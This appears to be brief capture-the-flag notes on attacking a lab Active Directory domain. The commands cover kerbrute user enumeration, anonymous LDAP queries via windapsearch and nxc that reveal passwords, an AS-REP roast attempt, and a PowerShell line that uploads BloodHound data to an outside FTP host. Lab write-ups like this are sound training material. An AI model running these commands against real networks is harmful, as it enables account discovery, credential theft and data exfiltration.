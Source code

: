 `kerbrute userenum -d thm.local --dc 10.201.40.246 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt `
 => Revleas `greg@thm.local`

# More users with LDAP
----
- `/windapsearch.py --dc-ip 10.201.40.246 -u "" -U | grep userPrincipalName: | awk '{print $2}' | cut -d "@" -f1`
- `nxc ldap labyrinth.thm.local -u 'guest' -p '' --users`
	- Reveals Passwords

# ASREP Roast
---
- Nothing found here

# BLOODHOUND
----
- `(New-Object Net.WebClient).UploadFile('ftp://10.11.135.80/THMLOCAL.zip', 'C:\Users\SUSANNA_MCKNIGHT\20250819151314_THMLOCAL.zip')`